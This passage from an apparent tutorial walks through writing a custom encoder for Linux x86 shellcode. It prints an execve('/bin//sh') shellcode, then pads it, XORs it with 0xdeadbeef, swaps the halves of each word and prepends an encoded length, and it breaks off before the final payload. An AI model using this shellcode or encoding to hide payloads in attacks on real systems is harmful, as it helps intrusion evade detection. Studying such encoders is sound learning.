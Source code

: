 This assembler code translates after compilation in this shellcode:

{%highlight sh%}
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"

{%endhighlight%}

## The schema

First step is to align this payload so to be a 4 multiple. Let's use \x90 as padding.

{%highlight sh%}
"\x31\xc0\x50\x68"
"\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69"
"\x6e\x89\xe3\x31"
"\xc9\x31\xd2\xb0"
"\x0b\xcd\x80\x90"
{%endhighlight%}

Second step is to XOR this block with a KEY, that is 0xdeadbeef in our case.

{%highlight sh%}
"\xef\x6d\xee\x87"
"\xf1\x82\xcd\x87"
"\xb6\x82\xdc\x86"
"\xb0\x24\x5d\xde"
"\x17\x9c\x6c\x5f"
"\xd5\x60\x3e\x7f"
{%endhighlight%}

We can swap first half and second half of each word

{%highlight sh%}
"\x87\xee\x6d\xef"
"\x87\xcd\x82\xf1"
"\x86\xdc\x82\xb6"
"\xde\x5d\x24\xb0"
"\x5f\x6c\x9c\x17"
"\x7f\x3e\x60\xd5"
{%endhighlight%}

We prepend the payload with the actual number of byte of the shellcode, XOR-ed
with the obfuscation key 0xdeadbeef

We have 24 bytes as payload in our weaponized PoC that turns in \x18 as
hexdecimal. I'll fill a 32 byte register with the payload length, this implies
that this encoding schema has a limitation for payload with size not longer
than 255 bytes.

Filling the register, turn it to "\x18\x18\x18\x18". We then apply the XOR with
0xdeadbeef encoding key and we obtain "\xc6\xb5\xa6\xf7". We then store it
swapped: "\xf7\xa6\xb5\xc6"

The final encoded payload is:
